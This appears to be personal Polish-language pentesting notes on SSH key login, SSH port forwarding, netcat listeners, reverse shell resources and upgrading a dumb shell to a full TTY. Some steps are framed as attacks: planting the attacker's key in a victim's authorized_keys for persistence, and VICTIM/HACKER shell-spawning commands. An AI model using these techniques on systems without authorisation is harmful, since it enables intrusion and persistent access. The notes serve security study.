 # Spawning TTY Shells
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys

[[(reverse) shell#Upgrade dummy shell]]
# Command Shell to Meterpreter
# SSH
połączenie ssh
https://unix.stackexchange.com/questions/23291/how-to-ssh-to-remote-server-using-a-private-key
```bash
ssh -p 1234 user@IP/Hostaname
```

| |                                                                                                                                                                         |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-i a.key` | klucz prywatny użytkownika utworzony na hoście zdalnym (jeśli istnieje to można go skopiować do siebie, oddzielny plik, zmienić chmod 600, dodać jako argument do ssh ) |
| `-p`       | port na którym się połączyć                                                                                                                                             |

można się zalogować nie wykonując .bashrc (plik uruchamiany przy starcie nowego terminala)
```bash
# wygenerować u siebie klucz RSA
(kck@kck)$ ssh-keygen -f <id_rsa>   
# nadać odpowiednie uprawnienia plikom
(kck@kck)$ chmod 600 ~/.ssh/nazwa (id_rsa domyślnie)
(kck@kck)$ chmod 600 ~/.ssh/nazwa.pub (id_rsa.pub domyślnie)
(kck@kck)$ chmod 700 ~/.ssh
# umieścić swój klucz publiczny w  ofiary pliku
(nazwa_ofiary@ofiara)$ nano ~/.ssh/authorized_keys 
# wykorzystanie klucza prywatnego do logowania bez hasła
(kck@kck)$ ssh -i <id_rsa> nazwa_ofiary@ofiara 
```

## SSH Port Forwarding (SSH Tunneling)
### Local/Remote
https://www.ssh.com/academy/ssh/tunneling-example  

dobrze wytłumaczone różnice między forwardingiem ssh:  
https://phoenixnap.com/kb/ssh-port-forwarding#ftoc-heading-4  

[What is the difference between Local/Remote/Dynamic SSH tunneling?](https://serverfault.com/questions/272754/what-is-the-difference-between-local-remote-dynamic-ssh-tunneling)

https://www.youtube.com/watch?v=AtuAdk4MwWw

|            |           what you acces            |                |         what you get         |               |
| :--------- | :---------------------------------: | :------------: | :--------------------------: | ------------: |
|            |      do czego mam mieć dostęp       |                |   przez co mam mieć dostęp   |               |
| **Local**  |        na lokalnej maszynie         | masz dostęp do | zdalnych zasobów pod adresem |               |
| `ssh -L`   |      `(Local_IP :) Local_Port`      |      `:`       |  ` Remote_IP : Remote_Port`  | `user@server` |
| **Remote** | z adresu zdalnego servera (IP:port) | masz dostęp do |      lokalnych zasobów       |               |
| `ssh -R`   |     `(Remote_IP :) Remote_Port`     |      `:`       |   `Local_IP : Local_Port`    | `user@server` |
|            |

```bash
ssh -L 127.0.0.1:8000:localhost:80 server
na lokalnym porcie 8000 aktualnej maszyny (127.0.0.1:8000) będzie dostępna aplikacja z serwera z portu localhost:80 
```
```bash
ssh -R  0.0.0.0:2222:127.0.0.1:22 server
na porcie 2222 servera zdalnego będzie dostęp do adresu 127.0.0.1:22 lokalnej maszyny, z której rozpoczęty został tunel
*0.0.0.0 - serwer nasłuchuje na każdym adresie (nie tylko na localhost)
```

### Dynamic
tzw socks proxy
```bash
ssh –D local_port ssh_server_hostname
ssh –D 5534 pnap@ssh.server.com
```
You are now able to configure a local resource, like a browser, to use proxy localhost on port 5534. All traffic originating from that resource is directed through the SSH connections established for the defined port.
ustawienie przeglądarki żeby korzystała z proxy localhost:5534 sprawia, że wysyła wszystko do tunelu.

For dynamic forwarding to work, you would need to configure and enable each application for the SOCKS proxy server.

# nc/netcat
```bash
#nasłuchuj połączenia
nc -lvp <port>
```

|      |                                                                |
| ---- | -------------------------------------------------------------- |
| `-l` | listen (nasłuchuj na porcie, czekaj na przychodzące poączenia) |
| `-v` | verbose                                                        |
| `-p` | numer portu                                                    |

```bash
# nawiąż połączenie z IP:PORT
nc -v IP PORT
```
# Reverse shell
https://github.com/lukechilds/reverse-shell  
reverse shell cheat sheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

## Reverse Shell as a Service
https://reverse-shell.sh/yourip:port 

# Upgrade dummy shell
różne metody spawnu powłoki (nie tylko python): http://netsec.ws/?p=337  
pełen upgrade https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/

```bash
echo $TERM # own terminal info, zapisać jaki terminal
stty -a # own terminal info, zapisać ilość kolumn i wierszy
stty raw -echo && fg # allow to pass keyboard shortcuts through
```
```bash
#VICTIM
#1
python3 -c 'import pty; pty.spawn("/bin/bash")'
#2
SHELL=/bin/bash script -q /dev/null

export TERM=xterm-256color;export SHELL=bash;stty rows 40 cols 200

*CTRL-Z*

#HACKER
stty raw -echo && fg

# ENTER
```

# Escape from Restricted Shells